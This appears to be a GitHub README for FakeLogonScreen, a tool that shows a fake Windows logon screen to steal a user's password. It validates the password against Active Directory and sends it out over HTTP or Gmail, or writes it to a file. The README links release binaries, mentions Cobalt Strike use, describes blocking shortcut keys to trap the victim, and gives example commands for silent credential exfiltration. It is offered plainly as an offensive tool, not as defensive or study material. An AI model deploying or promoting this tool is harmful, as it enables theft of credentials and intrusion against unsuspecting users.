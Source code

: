# FakeLogonScreen
FakeLogonScreen is a utility to fake the Windows logon screen in order to obtain the user's password. The password entered is validated against the Active Directory or local machine to make sure it is correct and is then displayed to the console or saved to disk.

It can either be executed by simply running the .exe file, or using for example Cobalt Strike's `execute-assembly` command.

Binaries available from the [Releases](https://github.com/diegomardian/fakelogonscreen/releases) page.
- FakeLogonScreen.exe: Writes output to console which for example is compatible with Cobalt Strike
- FakeLogonScreenToFile.exe: Writes output to console and `%LOCALAPPDATA%\Microsoft\user.db`

Folders:
- / (root): Built against .NET Framework 4.5 which is installed by default in Windows 8, 8.1 and 10
- DOTNET35: Built against .NET Framework 3.5 which is installed by default in Windows 7

# Features
- Primary display shows a Windows 10 login screen while additional screens turn black
- If custom background is configured by the user, shows that background instead of the default one
- Validates entered password before closing the screen
- Username and passwords entered are outputted to console or stored in a file
- Blocks many shortkeys to prevent circumventing the screen
- Minimizes all existing windows to avoid other windows staying on top
- Send results through either http, gmail, or to a file

# How To Use
FakeLogonScreen accepts these parameters:
| Option | Description |
| ------ | ---------- |
| `http [url]` | Sends results to url as a json post request with the results contianed in "results" |
| `gmail [email] [password]` | Sends a email to the specified email (Note: You must enable less apps accesss [here](https://www.google.com/settings/security/lesssecureapps) |
| `file [filepath]` | writes results to the file specified |
 FakeLogonScreen normally will make a log.txt file but if you append `silent` to the end it will not.
## Http
You can create your own server or you can use [DuckyServer](), a pre built server.
## Exmaple using DuckyServer
`FakeLogonScreen.exe http http://127.0.0.1//fake_login_screen silent`
## Gmail
To use Gmail make sure you go to [https://www.google.com/settings/security/lesssecureapps](https://www.google.com/settings/security/lesssecureapps) and enable "Allow less secure apps" for the account you will use.
## Example
`FakeLogonScreen.exe gmail testaccount@gmail.com testpassword silent`
## File
Just specify the file you would like FakeLogonScreen to write to.
## Example
`FakeLogonScreen.exe file C:\Users\test\`
